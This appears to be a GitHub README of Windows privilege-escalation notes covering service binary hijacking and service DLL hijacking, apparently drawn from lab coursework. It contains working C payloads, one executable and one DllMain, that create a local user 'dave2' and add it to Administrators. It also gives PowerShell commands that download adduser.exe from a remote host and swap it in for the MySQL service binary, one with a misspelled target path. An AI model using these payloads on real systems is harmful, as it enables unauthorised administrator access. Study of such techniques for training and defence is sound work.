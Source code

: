 # Pervlige Escalation In short


## Add user to the system via Leavrginy mysql service | Service Binary Hijacking. 
### Breif
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state.

For this section, let's consider a scenario in which a software developer creates a program and installs an application as a Windows service. During the installation, the developer does not secure the permissions of the program, allowing full Read and Write access to all members of the Users group. As a result, a lower-privileged user could replace the program with a malicious one. 

To execute the replaced binary, the user can restart the service or, in case the service is configured to start automatically, reboot the machine. Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as LocalSystem.

We begin by connecting to The Victim as user over RDP. To use powershell commands, Get-Ciminstances, Get-Services.. etc. 

To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in services.msc, the Get-Service Cmdlet, or the Get-CimInstance Cmdlet (superseding Get-WmiObject).
### Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/6ce3ca29-2b07-48a9-a59e-e4df5648a6c5)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
## Simply replace the service
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exx
```

## Add user to the system via Leavrging service (Misconifugation) | Service DLL Hijacking. 
### Breif
Replacing the binary of a service is a very effective way to attempt privilege escalation on Windows systems. However, because our user doesn't often have permissions to replace these binaries, we'll need to adapt with a more advanced way of abusing Windows services.

Dynamic Link Libraries (DLL)1 provide functionality to programs or the Windows operating system. DLLs contain code or resources, such as icon files, for other executable files or objects to use. These libraries provide a way for developers to use and integrate already existing functionality without reinventing the wheel. Windows uses DLLs to store functionality needed by several components. Otherwise, each component would need the functionality in their own source code resulting in a huge resource waste. On Unix systems, these files are called Shared Objects.2

There are several methods we can use to exploit how DLLs work on Windows and they can often be an effective way of elevating our privileges. One method is similar to the privilege escalation vector performed in the previous section. Instead of overwriting the binary, we merely overwrite a DLL the service binary uses. However, the service may not work as expected because the actual DLL functionality is missing. In most cases, this would still lead us to code execution of the DLL's code and then, for example, to the creation of a new local administrative user.

Another method is to hijack the DLL search order.3 The search order is defined by Microsoft and determines what to inspect first when searching for DLLs. By default, all current Windows versions have safe DLL search mode enabled.

This setting was implemented by Microsoft due to the high number of DLL hijacking vectors and ensures that DLLs are more difficult to hijack. The following listing shows the standard search order taken from the Microsoft Documentation:3

### Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/13f9db2c-e01e-442e-be3c-aa91e5472a9f)

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

